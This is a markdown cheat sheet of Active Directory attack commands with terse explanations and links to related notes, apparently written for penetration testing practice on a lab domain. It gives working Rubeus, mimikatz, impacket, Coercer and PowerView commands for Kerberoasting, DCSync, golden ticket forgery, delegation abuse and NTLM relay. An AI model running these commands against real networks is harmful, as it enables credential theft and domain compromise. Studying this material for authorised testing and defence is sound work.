

#windows #ad #adcs #esc1 #gpp

# Windows Attacks & Defense

Common AD attack chain with defensive notes. Most techniques cross-link to the AD folder. Related: [kerberoasting](../AD/kerberoasting.md) · [dcsync](../AD/dcsync.md) · [kerberos-tickets](../AD/kerberos-tickets.md) · [ntlm-relay](../AD/ntlm-relay.md) · [dacl-attacks](../AD/dacl-attacks.md)

## Contents
- [Kerberoast / AS-REP (John option)](#kerberoast--as-rep-john-option)
- [GPP Passwords](#gpp-passwords)
- [Credential Hunting in the Domain](#credential-hunting-in-the-domain)
- [DCSync / Golden Ticket](#dcsync--golden-ticket)
- [Constrained Delegation](#constrained-delegation)
- [PrinterBug + NTLM Relay](#printerbug--ntlm-relay)
- [Unconstrained Delegation + Coercion](#unconstrained-delegation--coercion)
- [Object ACL / SPN Abuse](#object-acl--spn-abuse)
- [AD CS](#ad-cs)

A sample end-to-end chain through several of the sections below:



## Kerberoast / AS-REP (John option)
```cmd
.\Rubeus.exe kerberoast /outfile:spn.txt
```
Roast SPN accounts. See [kerberoasting](../AD/kerberoasting.md).

```bash
sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
```
Crack TGS tickets with John.

## GPP Passwords
```powershell
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```
Parse SYSVOL XML for GPP cpasswords (MS14-025). See [netexec](../AD/NetExec.md).

## Credential Hunting in the Domain
```powershell
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess
```
Find non-default shares (PowerView).

```powershell
.\SearchUser.ps1 -Terms pass
```
Search AD object Description/Info fields for secrets.

## DCSync / Golden Ticket
```
mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
```
Dump the krbtgt hash. See [dcsync](../AD/dcsync.md).

```
mimikatz # golden /domain:eagle.local /sid:<domain sid> /rc4:<krbtgt hash> /user:Administrator /id:500 /ptt
```
Forge and inject a golden ticket. See [kerberos-tickets](../AD/kerberos-tickets.md).

## Constrained Delegation
```cmd
.\Rubeus.exe hash /password:Slavi123
```
Convert a password to its NTLM hash.

```cmd
.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```
S4U impersonation via a delegation-trusted account. See [kerberos-delegation](../AD/kerberos-delegation.md).

## PrinterBug + NTLM Relay
```bash
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```
Relay coerced auth to perform DCSync.

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```
Trigger the PrinterBug (defense: disable `RegisterSpoolerRemoteRpcEndPoint`). See [ntlm-relay](../AD/ntlm-relay.md).

## Unconstrained Delegation + Coercion
```powershell
Get-NetComputer -Unconstrained | select samaccountname
```
Find unconstrained-delegation hosts.

```bash
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```
Coerce the DC to authenticate to a controlled host.

## Object ACL / SPN Abuse
```cmd
setspn -U -s ldap/ws001 anni
```
Set an SPN on a user you control (enables targeted kerberoast).

## AD CS
Full ESC1–ESC13 chain (Certify + Certipy) now lives in [adcs](../AD/adcs.md).
